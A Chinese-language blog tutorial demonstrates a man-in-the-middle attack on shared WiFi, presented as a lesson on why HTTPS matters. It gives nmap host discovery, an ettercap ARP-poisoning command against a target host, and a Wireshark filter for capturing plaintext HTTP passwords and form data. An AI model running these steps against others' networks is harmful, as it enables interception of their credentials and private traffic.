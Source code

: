 ```yaml
---
title: "公共WIFI網路嗅探"
date: 2021-07-08T16:00:49+08:00
draft: true
tags: ["secure","ettercap","資安","檢查","wifi","中間人攻擊"]
featured_image: "/secure.jpg"
---
```


## 作者

阿維

## 同意條款

閱讀本篇文章等同承諾:  
1. 不將相關知識用在任何非法用途  
2. 不窺探他人隱私  
3. 保持誠實與友善  
4. 所有安全測試知識只用於維護安全的目的  
5. 測試用的器材僅限於自己擁有的主機與設備  
6. 測試的對象只限於自己  

## 概念

我們在使用公共WIFI，例如速食店或便利超商甚至學校時，我們必須非常謹慎，可能的話務必要使用有HTTPS協定的網站，如果沒有的話，也可以嘗試免費的proxy或者是Tor service，來對流量進行加密轉送。  

為什麼呢？  

我們底下將直接展示透過不安全的WIFI來擷取網頁瀏覽資料的實做。  

## 1.了解自己的IP與WIFI界面

用以下指令了解自己在該網段的IP，假設自身的網段為192.168.43.0，我們的網路界面為wlp0s20f3
```
ip address
```

如果在容器裡頭沒有該指令請另行下載
```
apt install -y iproute2
```

## 2.發覺跟我們一起共用WIFI的主機IP

跟我們共用同樣的IP就可以被我們監聽  

安裝nmap
```
apt install -y nmap
```

掃描我們WIFI網段上的主機
```
nmap  -sn  192.168.43.0/24 
```

以下掃描結果:  
```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-09 10:51 CST
Nmap scan report for _gateway (192.168.43.1)
Host is up (0.0028s latency).
MAC Address: F6:F6:F5:32:57:DA (Unknown)
Nmap scan report for pc (192.168.43.112)
Host is up (0.24s latency).
MAC Address: CC:C1:C9:CF:2E:A9 (AzureWave Technology)
Nmap scan report for alex (192.168.43.108)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.24 seconds

```

我們意識到三個主機:  
>1. 自己的主機:192.168.43.108  
>2. 目標監聽主機位址為192.168.43.112  
>3. wifi分享器(AP):192.168.43.1  

## 3.Ettercap啟動監聽

用Ettercap插入WIFI分享器與監聽對象中間  
這樣所以原本要通向WIFI分享器的封包都會路過我們的主機，被我們主機進行監測  

安裝ettercap命令行模式
```
apt install -y ettercap-common
```
在軟體ettercap裡頭輸入wifi分享器與目標監聽主機的IP，記得順序要正確
```
ettercap -T -S -i wlp0s20f3 -M arp:remote /192.168.43.1// /192.168.43.112//
```

結果
```
ettercap 0.8.3 copyright 2001-2019 Ettercap Development Team

Listening on:
wlp0s20f3 -> 50:2F:9B:33:37:CC
	  192.168.43.108/255.255.255.0
	  f780::6b75:a7f7:41af:7698/64

Ettercap might not work correctly. /proc/sys/net/ipv6/conf/all/use_tempaddr is not set to 0.
Ettercap might not work correctly. /proc/sys/net/ipv6/conf/wlp0s20f3/use_tempaddr is not set to 0.
Privileges dropped to EUID 55434 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
24609 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...
* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.43.1 15:16:55:32:77:DA

 GROUP 2 : 192.168.43.112 61:31:49:57:7E:C9

```
我們可以看到裡頭有一段，這代表我們成功監聽了兩個主機之間的無線流量了
```
ARP poisoning victims:

 GROUP 1 : 192.168.43.1 15:16:55:32:77:DA

 GROUP 2 : 192.168.43.112 61:31:49:57:7E:C9

```

## 4.Wireshark擷取封包

安裝wireshark
```
apt install wireshark
```
打開wireshark
```
sudo wireshark
```
打開wireshark在篩選器中輸入
```
ip.src==192.168.43.112 && http 
```
這樣就能指定擷取到對方HTTP的封包了。  

我們就可以看到目標監聽主機連上什麼網站了，而當沒有HTTPS的時候，目標主機的網站請求，密碼，表單輸入，通通都是明文呈現，可以被我們間聽到。

但如果是HTTPS的話就算擷取了，也是加密訊息，看不懂的！  
所以HTTPS等加密傳輸真的很重要唷～  


## 補充閱讀:
https://www.youtube.com/watch?v=-rSqbgI7oZM&t=832s&ab_channel=NetworkChuck  
